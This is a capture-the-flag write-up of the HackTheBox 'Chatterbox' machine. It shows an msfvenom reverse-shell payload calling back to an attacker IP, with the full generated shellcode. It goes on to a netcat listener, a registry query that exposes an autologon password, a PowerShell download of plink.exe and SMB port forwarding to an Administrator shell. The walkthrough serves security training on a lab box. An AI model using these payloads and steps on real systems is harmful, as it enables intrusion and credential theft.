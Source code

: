 ```yaml
---
layout: post
title: HackTheBox - Chatterbox Writeup
tags: [hackthebox]
---
```


## Enumeration

Chatterbox is a pretty simple box and reminds me a lot of something you run across in the OSCP labs. Overall it's pretty easy, the only sort of tricky part is with privesc if you aren't familiar with port forwarding. If you follow my Windows Privilege Escalation Guide on this one, you'll be golden. Before you do the box, make sure you've reset it otherwise you won't get a shell. 


```
root@kali:~/htb/chatterbox# nmap -sV -p- 10.10.10.74 -T4

Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-02 15:16 EST
Nmap scan report for 10.10.10.74
Host is up (0.050s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system

Nmap done: 1 IP address (1 host up)
```

Looks like AChat is our target. A quick Google returns an exploit in python:

https://www.exploit-db.com/exploits/36025/

The exploit payload is currently only going to run calc.exe, so we'll need to generate a reverse shellcode payload. We can do this with `msfvenom`. Lucky for us the author of the exploit was nice enough to specify his exact command used in the comments, so we know the correct options along with which bad characters to exclude.

```
root@kali:~/htb/chatterbox# msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3706 bytes
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x59\x6c\x67\x78\x45\x32"
buf += "\x4b\x50\x39\x70\x79\x70\x63\x30\x52\x69\x47\x75\x6e"
buf += "\x51\x75\x70\x42\x44\x34\x4b\x42\x30\x4e\x50\x34\x4b"
buf += "\x52\x32\x4c\x4c\x42\x6b\x62\x32\x4b\x64\x32\x6b\x62"
buf += "\x52\x6d\x58\x4a\x6f\x74\x77\x6e\x6a\x6b\x76\x4c\x71"
buf += "\x6b\x4f\x76\x4c\x6d\x6c\x4f\x71\x51\x6c\x6d\x32\x4e"
buf += "\x4c\x4b\x70\x79\x31\x36\x6f\x6c\x4d\x4d\x31\x79\x37"
buf += "\x57\x72\x49\x62\x4e\x72\x6e\x77\x32\x6b\x42\x32\x4e"
buf += "\x30\x64\x4b\x4e\x6a\x6d\x6c\x72\x6b\x30\x4c\x4c\x51"
buf += "\x52\x58\x57\x73\x61\x38\x69\x71\x66\x71\x50\x51\x74"
buf += "\x4b\x52\x39\x6f\x30\x69\x71\x79\x43\x54\x4b\x31\x39"
buf += "\x5a\x78\x6b\x33\x4c\x7a\x61\x39\x42\x6b\x6d\x64\x32"
buf += "\x6b\x79\x71\x67\x66\x30\x31\x59\x6f\x54\x6c\x36\x61"
buf += "\x78\x4f\x6a\x6d\x6b\x51\x67\x57\x4f\x48\x37\x70\x72"
buf += "\x55\x48\x76\x7a\x63\x43\x4d\x5a\x58\x4d\x6b\x63\x4d"
buf += "\x6f\x34\x31\x65\x69\x54\x50\x58\x34\x4b\x4f\x68\x4d"
buf += "\x54\x6b\x51\x76\x73\x33\x36\x52\x6b\x6c\x4c\x30\x4b"
buf += "\x62\x6b\x4e\x78\x6b\x6c\x69\x71\x58\x53\x34\x4b\x4b"
buf += "\x54\x54\x4b\x39\x71\x58\x50\x43\x59\x4d\x74\x4b\x74"
buf += "\x6f\x34\x61\x4b\x61\x4b\x50\x61\x51\x49\x50\x5a\x32"
buf += "\x31\x49\x6f\x37\x70\x51\x4f\x71\x4f\x4e\x7a\x34\x4b"
buf += "\x6c\x52\x4a\x4b\x62\x6d\x71\x4d\x71\x58\x6f\x43\x6f"
buf += "\x42\x69\x70\x4b\x50\x43\x38\x61\x67\x50\x73\x30\x32"
buf += "\x71\x4f\x52\x34\x52\x48\x50\x4c\x73\x47\x6b\x76\x39"
buf += "\x77\x6b\x4f\x77\x65\x68\x38\x54\x50\x49\x71\x69\x70"
buf += "\x69\x70\x4b\x79\x46\x64\x72\x34\x30\x50\x61\x58\x6e"
buf += "\x49\x71\x70\x32\x4b\x4b\x50\x49\x6f\x39\x45\x4e\x70"
buf += "\x4e\x70\x4e\x70\x32\x30\x6d\x70\x42\x30\x6d\x70\x50"
buf += "\x50\x70\x68\x5a\x4a\x4a\x6f\x39\x4f\x49\x50\x59\x6f"
buf += "\x37\x65\x63\x67\x71\x5a\x6b\x55\x33\x38\x6a\x6a\x59"
buf += "\x7a\x6a\x6e\x4b\x57\x30\x68\x5a\x62\x69\x70\x59\x71"
buf += "\x35\x6b\x55\x39\x67\x76\x4f\x7a\x6c\x50\x51\x46\x51"
buf += "\x47\x31\x58\x44\x59\x37\x35\x44\x34\x71\x51\x69\x6f"
buf += "\x7a\x35\x52\x65\x69\x30\x33\x44\x6c\x4c\x79\x6f\x30"
buf += "\x4e\x69\x78\x34\x35\x4a\x4c\x62\x48\x6c\x30\x38\x35"
buf += "\x54\x62\x62\x36\x4b\x4f\x5a\x35\x4f\x78\x31\x53\x50"
buf += "\x6d\x51\x54\x4b\x50\x72\x69\x49\x53\x30\x57\x32\x37"
buf += "\x62\x37\x4c\x71\x6a\x56\x30\x6a\x5a\x72\x70\x59\x72"
buf += "\x36\x6b\x32\x79\x6d\x6f\x76\x76\x67\x50\x44\x6f\x34"
buf += "\x6d\x6c\x6d\x31\x49\x71\x72\x6d\x6d\x74\x4f\x34\x6c"
buf += "\x50\x37\x56\x69\x70\x4d\x74\x6e\x74\x30\x50\x50\x56"
buf += "\x6e\x76\x32\x36\x6e\x66\x32\x36\x50\x4e\x50\x56\x52"
buf += "\x36\x52\x33\x42\x36\x72\x48\x72\x59\x56\x6c\x4f\x4f"
buf += "\x53\x56\x69\x6f\x49\x45\x55\x39\x49\x50\x4e\x6e\x32"
buf += "\x36\x51\x36\x6b\x4f\x4e\x50\x53\x38\x4b\x58\x54\x47"
buf += "\x4b\x6d\x4f\x70\x69\x6f\x68\x55\x37\x4b\x7a\x50\x75"
buf += "\x65\x64\x62\x72\x36\x71\x58\x43\x76\x44\x55\x45\x6d"
buf += "\x55\x4d\x69\x6f\x39\x45\x4f\x4c\x6d\x36\x73\x4c\x79"
buf += "\x7a\x65\x30\x69\x6b\x67\x70\x74\x35\x49\x75\x67\x4b"
buf += "\x4d\x77\x5a\x73\x30\x72\x62\x4f\x30\x6a\x49\x70\x6e"
buf += "\x73\x69\x6f\x47\x65\x41\x41"

```

We can go ahead and edit the exploit with our newly generated shellcode. Start up a netcat listener and run our exploit. 

```
root@kali:~/htb/chatterbox# python 36025.py 
---->{P00F}!
```

```
root@kali:~# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred

```

## Privilege Escalation

After running through some basic privilege escalation enumeration ([ahem](https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/)) we find some credentials in the registry for autologon.

```
C:\Windows\Panther>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    DefaultDomainName    REG_SZ
    DefaultUserName    REG_SZ    Alfred
    DefaultPassword    REG_SZ    Welcome1!
```

It's possible that password reuse may be at play here for the Administrator. To exploit this we'll need to open up SMB on our target. We can do this by uploading `plink.exe` to our target and port forwarding over port 445.

First we start up our python http server.

```
root@kali:~/htb/chatterbox# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Next we'll download `plink.exe` using a powershell one liner.

```
C:\Users\Alfred>powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8/plink.exe', 'plink.exe')"
```

Start SSH service on our attacking box.

```
root@kali:~/htb/chatterbox# service ssh start
```

And run `plink.exe` from our target to forward the port over SSH.

```
C:\Users\Alfred>plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's rsa2 key fingerprint is:
ssh-rsa 2048 fc:4d:bc:2f:51:41:40:0d:2e:e2:86:a6:06:fb:98:88
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) y


The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug 10 09:31:17 2017 from 10.10.10.43

root@kali:~# 
```

We can verify the port forward is working with `netstat`.

```
root@kali:~/htb/chatterbox# netstat -ano | grep 445
tcp        0      0 127.0.0.1:445           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 ::1:445                 :::*                    LISTEN      off (0.00/0/0)
```

Excellent. Now let's use `winexe` to get a shell.

```
root@kali:~/htb/chatterbox# winexe -U Administrator //127.0.0.1 "cmd.exe"
Enter password:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator
```

Success! 